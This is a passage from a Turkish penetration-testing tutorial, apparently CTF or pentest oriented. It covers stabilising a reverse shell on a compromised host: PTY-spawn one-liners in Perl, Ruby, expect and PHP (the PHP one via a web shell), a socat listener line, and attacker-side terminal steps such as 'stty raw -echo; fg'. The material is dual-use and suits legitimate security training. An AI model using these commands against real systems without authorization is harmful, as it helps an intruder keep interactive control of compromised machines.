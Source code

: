 ```bash
# socat file:`tty`,raw,echo=0 tcp-listen:<YENI_PORT>
```

#### Diğer Diller/Araçlar ile PTY
Hedef sistemde Python veya `script` yoksa:
*   **Perl:**
    ```perl
    perl -e 'use IO::Pty; IO::Pty->new->spawn("/bin/bash");'
    # veya daha basit ama PTY olmayan:
    perl -e 'exec "/bin/sh";'
    ```
*   **Ruby:**
    ```ruby
    ruby -e 'require "pty"; PTY.spawn("/bin/bash")'
    ```
*   **expect (Tcl):**
    ```tcl
    expect -c 'spawn /bin/bash; interact'
    ```
*   **PHP (genellikle web shell üzerinden):**
    ```php
    // Bu tam bir PTY sağlamaz ama interaktif shell'e bir adımdır
    // exec("/bin/bash -i");
    // veya PTY spawn için Python/script'i exec ile çağırma
    // system("python -c 'import pty; pty.spawn(\"/bin/bash\")'");
    ```

**İpucu:** [PayloadsAllTheThings Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) adresinde birçok farklı dilde ters bağlantı ve PTY spawn etme örnekleri bulabilirsiniz.

### Adım 2: Kendi Terminalimizi Ayarlama (Saldırgan Taraf)

PTY'yi hedefte oluşturduktan sonra (örneğin Python ile), kendi yerel terminalimizin PTY ile düzgün iletişim kurabilmesi için bazı ayarlar yapmamız gerekir. Bu adımlar, `netcat` veya `rlwrap nc` dinleyicinizin olduğu terminalde yapılır.

1.  **PTY spawn komutunu hedefte çalıştırdıktan sonra:** Komut istemi kaybolabilir veya garip davranabilir. Bu normaldir.
2.  **`Ctrl+Z` tuşlarına basın:** Bu, mevcut `nc` (veya `rlwrap nc`) işlemini arka plana atar (suspend eder). Kendi yerel shell'inize dönersiniz.
3.  **`stty raw -echo` komutunu çalıştırın:**
    ```bash
    stty raw -echo; fg
    ```
    Bu komut:
    *   `stty raw`: Terminalinizi "raw" moda alır, yani tuş vuruşları (örn: `Ctrl+C`) doğrudan hedefteki PTY'ye gönderilir, yerel terminaliniz tarafından yorumlanmaz.
    *   `stty -echo`: Yazdığınız karakterlerin terminalinize geri yankılanmasını (echo) engeller. Hedefteki PTY zaten bunu yapacaktır, bu yüzden çift yankılanmayı önler.
    *   `fg`: Arka plana attığınız `nc` işlemini tekrar ön plana getirir. `Enter`'a basmanız gerekebilir, bazen iki kere, shell'in tekrar aktifleşmesi için.
